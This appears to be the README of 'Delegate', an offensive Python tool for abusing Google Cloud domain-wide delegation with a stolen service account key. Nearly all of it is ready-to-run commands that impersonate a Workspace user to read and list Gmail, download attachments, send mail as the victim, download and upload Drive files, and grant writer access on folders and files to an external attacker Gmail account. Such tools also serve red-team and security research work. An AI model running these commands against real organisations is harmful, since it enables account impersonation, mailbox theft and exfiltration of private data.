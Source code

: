 # Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.

--> [Domain Wide Delegation article](https://medium.com/@lutzenfried/gcp-domain-wide-delegation-abuses-b82b8dd8cf15)

<img src="./Images/DomainWideDelegation_GCP.png" alt="gcpdelegation" width="800"/>

## Delegate tool usage
### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

List all folders content within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a folders
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k <serviceaccount_key> -m drive -a upload -i <targeted_Workspace_user> -t <localfile> -p <NameInDrive>
python3 delegate.py -k ../sa_key.json -m drive -a upload -i targeted.delegated@mackinsoncloud.com -t test.txt -p uploadedTest.txt
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k <serviceaccount_key> -m drive -a upload -i <targeted_Workspace_user> -t <localfile> -p <NameInDrive> -f <DriveFolder>
python3 delegate.py -k ../sa_key.json -m drive -a upload -i targeted.delegated@mackinsoncloud.com -t test.txt -p uploadedTest.txt -f Restricted_documents
```

Modify permissions on specific folder (Add external Gmail account with Writer permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a permissions -t Restricted_documents -e attackeremail@gmail.com
```

Modify permissions on specific file (Add external Gmail account with Writer permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a permissions -t secrets.txt -e attackeremail@gmail.com
```
